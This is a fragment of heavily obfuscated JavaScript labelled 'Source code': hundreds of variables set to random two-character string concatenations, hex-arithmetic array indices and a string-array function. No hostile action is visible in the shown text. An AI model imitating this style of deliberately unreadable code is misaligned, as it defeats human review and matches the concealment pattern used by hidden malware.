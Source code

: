 a0fS='/+'+'n4'+'*9'+'PV'+'Il'+'(['+'Ey'+'TT',a0fT='-K'+')g'+'NH'+'&X'+'8t'+'GV',a0fU='/F'+'kJ'+'GX'+'=f'+'2',a0fV='l^'+'hP'+'Zq'+'tO'+'x]'+'v)'+'7.'+'#';a0bg['rT'+'sP'+'IT'+'MQ'+'Q']='uv'+'qL'+'We'+'VP'+'4n'+'f';var a0fW='zv'+'xv'+'Lp'+']2'+'d*'+'QT'+'j@'+'I';_8N8ET='Qp'+'!A'+'n?'+'Bx'+'#%'+'1e'+'-Q'+'9j',a0be[-0x1aed*-0x1+-0x25c8+-0x8b*-0x14]='30';var a0fX='Qv'+'iD'+'xU'+']F'+'f',a0fY=']/'+'m#'+'#%'+'hl';a0bg['Yw'+'Hi'+'tj']='St'+'35'+'ah'+'qA'+'RE'+'jA'+'SL'+'gx'+'J6'+'6',_gYqGn9dpQ='V&'+'%_'+'&7'+'c]'+'eu'+'.O'+'Ay';var a0fZ='5S'+'ln'+'2S'+'2t'+'O)'+'Ee'+'WR',a0g0='U)'+'c+'+'=j'+'w]'+'W]'+')R'+'j';_QcgccSXv='.?'+'Jz'+'Z.'+'Qk'+'8k'+'Pw';var a0g1='yw'+'iL'+'/4'+'6M';function a0g(){var kT=['10jstkig','2201696zCVmxL','24743224qsYVRu','8961147lniCym','3330aHRrxY','3bxwsHh','1862150fFgpuD','8216KqxUKd','1996925WtbzRf','30sbuOIo','1599916qyWMik'];a0g=function(){return kT;};return a0g();}a0bk[0x12a*0x15+-0x10b0+-0x73f]='xy'+'ay'+'dG'+'C6'+'g';var a0g2='mJ'+'(t'+'!M'+'oI'+'_o'+'%-'+'Lt'+'?';_a7Q3SAMQy='cm'+'tF'+'9a'+'d7',_a8gCzBo='QG'+'s%'+'OJ'+'HE'+'Ir'+'Ux'+'T^'+'6W';var a0g3='xZ'+'*r'+'8z'+'m(';_zkpCWKu='6x'+'-X'+'vO'+'-L'+'T',a0bk[0x3d*-0x83+0x2485+-0x5*0xf9]='xL'+'nk'+'bh'+'M';var a0g4='oF'+'dJ'+'2!'+'2H';_HpPREOyI9r='p['+'-v'+'Bp'+'j5'+'A?'+'O',_TOwpojpRpN='=&'+'s3'+'s#'+'j%'+'^1'+'iF';var a0g5='+P'+'@l'+'4['+'N-'+'xi'+'NZ'+'N';a0bg['Ip'+'Kt'+'Vu']='kL'+'qm'+'Zu'+'Dm'+'oy'+'6',_96SLLtD='dd'+'?O'+'-@'+'2s'+'H#'+'sa'+'L#';var a0g6=')R'+'RH'+'Lg'+'i&'+'^F',a0g7='+w'+'bQ'+'Pj'+'-N'+'O('+'@_'+'9',a0g8='U]'+'9o'+'v4'+'p';a0bg['aw'+'lO'+'Ot']='ZN'+'8I'+'qv'+'qL'+'ZH'+'qm'+'We'+'j0',_yniP0zh='tz'+'kq'+'#z'+')n'+'84'+'0y'+'wD'+'c^';var a0g9='=D'+'@U'+'ly'+'*W'+'h',a0ga='Wk'+'YU'+']@'+'C5'+'&.'+'%';_vxeT33='Vp'+'f1'+'Zl'+'30'+'qf'+'?]'+'9K'+'*?',a0bg['Dw'+'uJ'+'Go'+'ZC']='V1'+'9m'+'Cm'+'DC'+'mS'+'Lq'+'kA'+'Kr'+'b',_7IDyAa='5J'+'/E'+'Os'+'R!'+'[e'+'B.';var a0gb='k8'+'n/'+'yQ'+'.X'+'wi'+'Ht'+'C';_btr2zLkl='Oi'+'BW'+'*-'+'P*'+'5G'+'?T'+'/j'+'t',a0bk[0xd2b+-0x29*0xf2+0x1a10]='R3'+'WS'+'rV';var a0gc='d['+')0'+'4n'+'TQ'+'D!'+'N@'+'%Q'+'c';_73usx3Icsl='G3'+'b^'+'0c'+'nf'+'o@'+'r',_3caek1CcW='5['+'Rm'+'ka'+'HJ'+'G%'+'JI'+'H',_qpYS8QQ='7.'+'&r'+'h3'+'hh'+'m',a0bk[0x3c7*0x8+0x1150+0x1c*-0x1ae]='ne'+'BY'+'2E',_sZYPsY='?('+'QF'+'7u'+'UV'+'Xk'+'8q'+'0S';var a0gd='gY'+'&E'+'6U'+'Iq'+'n[';_DaAlnZc='=j'+'yy'+'&3'+'CQ'+'1m'+'oC'+'vP'+'p',_UhGcAaRkKG='*p'+'V%'+'Is'+'Py'+'Iq'+'YD'+'se'+'!',a0bg['hn'+'Zl'+'wy'+'AN'+'sL']='XG'+'JX'+'Lq'+'mZ'+'uD'+'d9'+'Hv'+'st'+'c';var a0ge='pZ'+'VZ'+'6G'+'gM'+'u3'+'-('+'5';_80eOJQaF0='_K'+'J@'+'Wn'+'&B'+'(U'+'o';var a0gf='p-'+'bj'+'Ot'+'a+'+'IU'+'@',a0gg='tV'+'4I'+'oe'+'t*'+'R#'+'Ch'+'P';_mBEDl2jxug='7)'+'Ds'+'HW'+'aT'+'py',a0bk[-0x1*-0x1a2f+0x1349+0x48b*-0xa]='vX'+'sf'+'oa',_ohr1E38='^h'+'n]'+'4W'+'-P'+'*6'+'jx'+'lm'+'F',_9KB3Joqu='LN'+'ac'+'#3'+'7.'+'#m'+'2m'+'3U',_eqdMpr='Fn'+'v2'+'Jb'+'A(',_E8Zf3uH7g='NE'+'fg'+'0S'+'k!'+'&u';var a0gh='bP'+'EV'+'x',a0gi='x+'+'Hy'+'i*'+'-0'+'2N'+'^';_xp7jvnvBzr='qh'+'&7'+'Qh'+'&4'+'Yr';var a0gj='j*'+'_y'+'Bs'+'A4'+'dv',a0gk='C='+'!4'+'_1'+'(h';_rykyxtxQp='iF'+'z&'+'S4'+'fu'+'yY'+'qj'+'@';var a0gl='91'+'cN';_PAoGJ7='N3'+'XF'+'b('+'Uu'+'i8'+'&R'+'FL'+'#Y',_roJohIsxK='KU'+'H^'+'_s'+'P0'+'MB'+'zJ';var a0gm='?('+'jH'+'Xq'+'Bs'+'QM'+'Ya'+'Lu';_wvBcqliSWY='*E'+'BS'+'&W'+'53'+'qi'+'=',_MJAouI='fk'+'=M'+'+p'+'6o'+'(8'+'@u',a0bk[0x20f*0x3+0x7d*-0x49+0x1d99]='Rp'+'Dr'+'x7'+'jp';var a0gn='3]'+'cG'+'4&'+'Fy'+'sm'+'hi',a0go='6.'+'ol'+'F2'+'C&'+'Sw';a0bg['ZU'+'aT'+'PF'+'uG'+'u']='gV'+'sm'+'iK'+'SL'+'qv'+'1X'+'v';var a0gp='s0'+'WI'+'vm'+'S';_UgaAC='IN'+'YR'+'@q'+'f.'+'WL'+'ye'+'Wx'+'ng',_DNphj='Io'+'**'+'7]'+')C',a0bk[-0xd9*0x1d+0x12ab+-0x62f*-0x1]='g0'+'6X'+'kX',_mscN9m7U='JY'+'Ge'+'*D'+'gO';var a0gq='Bl'+'Oo'+'^a'+'t5'+'1R'+'iX'+'3',a0gr='^k'+'BH'+'3#'+'@b'+'Mg'+'_@'+'7h'+'^',a0gs='=U'+'Km'+'6O'+'^3'+'C8';a0bk[0x1*0x2109+-0xa1a+-0x16b0]='Hl'+'rq'+'ow';var a0gt='?k'+'!I'+'V)'+'Ud'+'hh'+'++'+'(d'+'[E',a0gu='.b'+'%O'+'1B'+'gj'+'yW'+']y',a0gv='3z'+'FJ'+'5l'+'3a'+'*';_xgEWcECmnk='M8'+'5n'+'gL'+'rO'+'!S',a0bk[-0xcd2+0x18+0xcde]='x2'+'8a'+'D4',_bYesm4AW='Yo'+'&&'+'Y]'+'PU'+'vS'+'!c'+'2u'+'by',_jZTBNInF='I('+'.r'+')w'+'wY'+'#',_6odcY='Im'+'OB'+'oR'+'Vt'+'R5'+'pf';var a0gw='*8'+'/)'+'yW'+'#-'+'.x'+'xo';a0bk[0xbd+-0x1fc7+0x1f0d]='lL'+'Mg'+'Id'+'DY'+'QB',_6KfAN6T='(m'+'t/'+'td'+'NM'+'z8',_u8vZggnxH='4!'+'Z7'+'Od'+'9q'+'7%';var a0gx='8g'+'b*'+'R7'+']J'+'1N'+'TY';a0bg['Cu'+'eB'+'JG']='Lq'+'Lq'+'v',_6BKBs52c7M='PY'+'%g'+'RJ'+'ji'+'Lj'+'cJ'+'h';var a0gy='C2'+'ac'+'*2'+'_b'+'=S'+'q#'+'!',a0gz='+/'+'jf'+'+*'+'j0'+'#';a0bg['oe'+'fq'+'NJ']='Mw'+'e3'+'70'+'6d'+'5O'+'gb'+'Hv'+'O',_rdF2cO9='JY'+'G7'+'2a'+'8.'+'fB'+')='+'qT'+'g-';var a0gA='6?'+'^J'+'mD'+'hH'+'*-'+'sZ'+'X4'+'i',a0gB='aM'+'5='+'])'+'5K';_g36XC='VD'+'5@'+'25'+'3&'+'k?',_8vdCXaMIN='n+'+'@('+'BE'+'dc'+'J]',a0bk[-0x7e1+-0x265a+0x8*0x5d1]='Wt'+'wo'+'XQ'+'8E';var a0gC='/s'+'*H'+'m*'+'Su'+'=Y'+'z',a0gD='H-'+'wt'+'dK'+'^H'+'-R'+'M';a0bg['um'+'wq'+'vU'+'l']='rA'+'yv'+'AT'+'o';var a0gE='Y5'+'_*'+'Hs'+'mu';_vkOMqWg='ep'+'6.'+'en'+'3O'+'j_'+'Xz'+'P',_KhMXXU='Am'+'#V'+'Hp'+'Hi'+'1C'+'1',_yqE8Quq='jH'+'R('+'9H'+'/2'+'[+'+'_-',a0bk[-0x180c+-0x1ceb+0x1*0x3572]='KE'+'Br'+'P',_OSGge7l='D#'+'+B'+'eG'+'ih';var a0gF='hR'+'KH'+'^V'+'6['+'UA'+'VZ';_yvLdhsVk='Fy'+'YM'+'D]'+'fr';var a0gG='6['+'&]'+'At'+'-s'+'Yp'+'x';a0bg['Nz'+'Nm'+'kf'+'f']='Ta'+'uG'+'Iq'+'Lb'+'zv'+'wU'+'YI'+'Rs';var a0gH='a5'+'7e'+'9*'+'TR'+'be'+'K%',a0gI='Q='+'KT'+'!O'+'n%';_nTTDZ='v*'+'LN'+'Z!'+'Vm'+'qz'+'wD'+'U%'+'wb',_R3QcK3qt='5_'+'b2'+']2'+'Z*'+'Rl'+'4x'+'g=',_WBF2rN5='yz'+'i+'+'*['+'KG',a0bk[-0xa05+0x1a73+-0x16*0xbc]='Gz'+'tj'+'eB'+'bv'+'RA',_OPhaxINFBq='En'+'l#'+'%R'+'Nh'+'Tt'+'*';var a0gJ='Xl'+'Id'+'&l'+'rF'+'d*'+'@F'+'jW'+'Mt';a0bk[0x1ba4+-0x247f*0x1+0x959]='kC'+'56'+'AN'+'VN';var a0gK='7W'+'L8'+'JS'+'*g'+'J-'+'Bs'+'b',a0gL='sF'+'k2'+']@'+'F',a0gM='n?'+'ul'+'X0'+'Qz';a0bg['Eg'+'dR'+'kL'+'pn'+'hf']='vQ'+'cq'+'Aq'+'lQ'+'Za'+'Q0'+'94'+'0S';var